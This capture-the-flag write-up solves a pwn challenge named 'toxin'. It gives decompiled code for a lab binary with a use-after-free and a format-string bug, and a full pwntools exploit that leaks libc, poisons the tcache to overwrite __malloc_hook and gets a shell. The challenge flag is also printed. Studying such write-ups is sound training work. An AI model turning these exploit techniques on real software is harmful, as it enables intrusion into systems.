

## Challenge description

```

After your research, you decide to sit down and use the lab panel to record your recent toxin findings.
After recording some toxination, you notice some odd glitches in the interface.

```


---

## Initial Recon

```
$ file toxin
toxin: ELF 64-bit LSB pie executable, x86-64, dynamically linked, interpreter ./lib/ld-2.27.so, BuildID[sha1]=c462dc6a106ccb8acb90b34ae93bc673a3010eda, for GNU/Linux 3.2.0, not stripped

$ pwn checksec toxin
[*] '/root/CTF/HTB/challenges/pwn/medium/toxin/toxin'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./lib/'
    Stripped:   No
```

The binary is dynamically linked, PIE-enabled, built with Full RELRO. There is no stack canary and NX is enabled.

Running the program immediately presents a menu:

```
$ ./toxin
Welcome to Toxin, a low-capacity lab designed to store, record and keep track of chemical toxins.
1. Record toxin
2. Edit existing toxin record
3. Drink toxin for testing
4. Search for toxin record
Enter your lab code.
>
```

Interactive behavior observed:

```
> 1
A new toxin! Fascinating.
Toxin chemical formula length: 20
Toxin index: 1
Enter toxin formula: a

> 2
Adjusting an error?
Toxin index: 1
Enter toxin formula: aaaaaaaaaa

> 3
This is dangerous testing, I'm warning you!
Toxin index: 1

> 4
Time to search the archives!
Enter search term: b
b
 not found.
```

---

## Decompiled/inspected functions


### add_toxin (malloc)

```c
void add_toxin(void)
{
  int iVar1;
  void *pvVar2;
  int index;
  ulong length [2];

  puts("A new toxin! Fascinating.");
  printf("Toxin chemical formula length: ");
  __isoc99_scanf("%lu",length);
  if (length[0] < 0xe1) {
    printf("Toxin index: ");
    __isoc99_scanf("%d",&index);
    iVar1 = index;
    if (((index < 0) || (2 < index)) || (*(long *)(toxins + (long)index * 8) != 0)) {
      puts("Invalid toxin index.");
    }
    else {
      *(ulong *)(sizes + (long)index * 8) = length[0];
      pvVar2 = malloc(length[0]);
      *(void **)(toxins + (long)iVar1 * 8) = pvVar2;
      printf("Enter toxin formula: ");
      read(0,*(void **)(toxins + (long)index * 8),length[0]);
    }
  }
  else {
    puts("Chemical formula too long.");
  }
  return;
}
```

**Summary:** Reads a length, reads a valid index (0–2) and, if the slot is free and the length is <225, allocates a buffer with malloc, stores the pointer in toxins[index], saves the size in sizes[index], and reads the toxin formula into the buffer.

---

### drink_toxin (free)

```c
void drink_toxin(void)
{
  int index;

  puts("This is dangerous testing, I\'m warning you!");
  printf("Toxin index: ");
  __isoc99_scanf("%d",&index);
  if (((index < 0) || (2 < index)) || (*(long *)(toxins + (long)index * 8) == 0)) {
    puts("Invalid toxin index.");
  }
  else if (toxinfreed == 0) {
    toxinfreed = 1;
    free(*(void **)(toxins + (long)index * 8));
  }
  else {
    puts("You can only drink toxins once, they\'re way too poisonous to try again.");
  }
  return;
}
```

**Summary:** Prompts for an index, checks if there is a valid pointer in toxins[index], and if toxinfreed is still 0, sets toxinfreed = 1 and frees the buffer pointed to by toxins[index]; otherwise, it prints a message saying it has already been used.

---

### edit_toxin

```c
void edit_toxin(void)
{
  int index;

  puts("Adjusting an error?");
  printf("Toxin index: ");
  __isoc99_scanf("%d",&index);
  if (((index < 0) || (2 < index)) || (*(long *)(toxins + (long)index * 8) == 0)) {
    puts("Invalid toxin index.");
  }
  else {
    printf("Enter toxin formula: ");
    read(0,*(void **)(toxins + (long)index * 8),*(size_t *)(sizes + (long)index * 8));
  }
  return;
}
```

**Summary:** Prompts for an index and, if there is a buffer in toxins[index], reads new user input directly into that buffer using the size stored in sizes[index].

---

### search_toxin (format-string)

```c
void search_toxin(void)
{
  int iVar1;
  uint local_14;
  char user_input [6];

  puts("Time to search the archives!");
  memset(user_input,0,6);
  printf("Enter search term: ");
  read(0,user_input,5);
  local_14 = 0;
  while( true ) {
    if (2 < (int)local_14) {
      printf(user_input);
      puts(" not found.");
      return;
    }
    if ((*(long *)(toxins + (long)(int)local_14 * 8) != 0) &&
       (iVar1 = strcmp(user_input,*(char **)(toxins + (long)(int)local_14 * 8)), iVar1 == 0)) break;
    local_14 = local_14 + 1;
  }
  printf("Found at index %d!
",(ulong)local_14);
  return;
}
```

**Summary:** Reads a short term (up to 5 bytes), compares it sequentially against the strings in toxins[0..2], and if it finds a match, prints the index where it was found; otherwise, it prints that it was not found..

---

## Vulnerabilities

We can clearly see some vulnerabilities:

1) Use-after-free (UAF):

The drink_toxin function calls `free(toxins[index])` but does not clear `toxins[index]` or `sizes[index]`. However, edit_toxin only checks whether the pointer is `!= 0`, and since it is never reset, the entry remains valid in the list. This allows us to perform a UAF, as we can write to a chunk that has already been freed.
Double-free is not possible, since we can only call free successfully once due to the global toxinfreed flag.

2) Format string:

This one is easier: search_toxin uses printf(user_input);, directly passing user input as the format string, which allows a format-string vulnerability.

---

## format-string probing

To locate useful stack positions we probe multiple positional %{n}$p slots using the search menu. The following quick script demonstrates automated probing.
(The script is very simple and was written quickly.):

```python
from pwn import *
import sys

if len(sys.argv) != 2:
    print(f"Uso: python {sys.argv[0]} <IP:PORT>")
    sys.exit(1)

arg = sys.argv[1]

if ':' in arg:
    ip, port = arg.split(':')
else:
    print("Formato inválido. Use IP:PORT")

io = remote(f"{ip}",port)

for i in range(100):
        io.sendlineafter(b">",b"4")
        io.sendlineafter(b"term:", "%{}$p".format(i).encode())
        resp = io.recvuntil(b"not found.").decode(errors="ignore").split("not found.")
        print(f"{i} : {resp[0].strip()}")
```

Sample output (abridged) shows a consistent leak at position 3, which points into the libc region:

```
3  : 0x7ffff7910081
```

From the local analysis (pwndbg vmmap), the libc mapping for this instance begins at 0x7ffff7800000. The leaked address corresponds to an offset 0x110081 inside that libc image:



libc base is leak_libc - 0x110081

---

## Exploit strategy

1. Use the format-string leak to obtain  `libc_base`.
2. Allocate a chunk (index 0) and then `free()` it via the `drink` option, `toxins[0]` remains non-NULL.
3. Use `edit` on the freed index to write a pointer value that will be used by the next `malloc`/allocation  effectively a write-what-where (we place a target pointer such as `&__malloc_hook`).
4. Allocate two new chunks so that the second allocation returns a region overlapping `__malloc_hook` (due to the corrupted chunk pointer), and write a one_gadget address into `__malloc_hook`.
5. Trigger `malloc()` to hit the overwritten `__malloc_hook` and spawn a shell.
---

## Full exploit 

Below is the exploit script used in the writeup.

```python
from pwn import *
import sys


if len(sys.argv) != 2:
    print(f"Uso: python {sys.argv[0]} <IP:PORT>")
    sys.exit(1)

arg = sys.argv[1]

if ':' in arg:
    ip, port = arg.split(':')
else:
    print("Formato inválido. Use IP:PORT")

io = remote(f"{ip}",port)

libc = ELF("./lib/libc.so.6",checksec=False)

def record_toxin(tamanho,index,data):
	io.sendlineafter(b">",b"1")
	io.sendlineafter(b"length:", f"{tamanho}".encode())
	io.sendlineafter(b"index:", f"{index}".encode())
	io.sendlineafter(b"formula:", data)

def edit(index,data):
	io.sendlineafter(b">",b"2")
	io.sendlineafter(b"index:", f"{index}".encode())
	io.sendlineafter(b"formula:", data)

def drink_toxin(index):
	io.sendlineafter(b">",b"3")
	io.sendlineafter(b"index:", f"{index}".encode())

def search(term):
	io.sendlineafter(b">",b"4")
	io.sendlineafter(b"term:", term)
	return_data = io.recvuntil(b"not found.").decode(errors="ignore").split("not found.")
	return  return_data[0].strip()


# Libc Leak 

libc_base = int(search(b"%3$p"),16) - 0x110081

log.success(f"Libc Base {hex(libc_base)}")

libc.address = libc_base

# Overwrite __malloc_hook with a one_gadget

record_toxin(0x20,0,b"AAAAAA")
drink_toxin(0)
edit(0,p64(libc.sym["__malloc_hook"]))
record_toxin(0x20,1,b"AAAA")

record_toxin(0x20,2,p64(libc.address + 0x4f322))
io.sendlineafter(b">",b"4")
io.sendlineafter(b"term",b"%999$c") # Trigger a malloc invocation via a printf

#gdb.attach(io)

io.interactive()
```

---

## Running Exploit

A successful exploit run produced a shell and revealed the flag:

```
[+] Libc Base 0x7facd8b78000
$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ cat flag.txt
HTB{tc4ch3_t0x1n4t10n???_0r_tc4ch3_p01So1n1NG??+F0rm4t...4m@ZiNg!!!}
```

If you notice any inaccuracies or mistakes in this writeup, please feel free to contact me. I’d be happy to clarify or correct any information.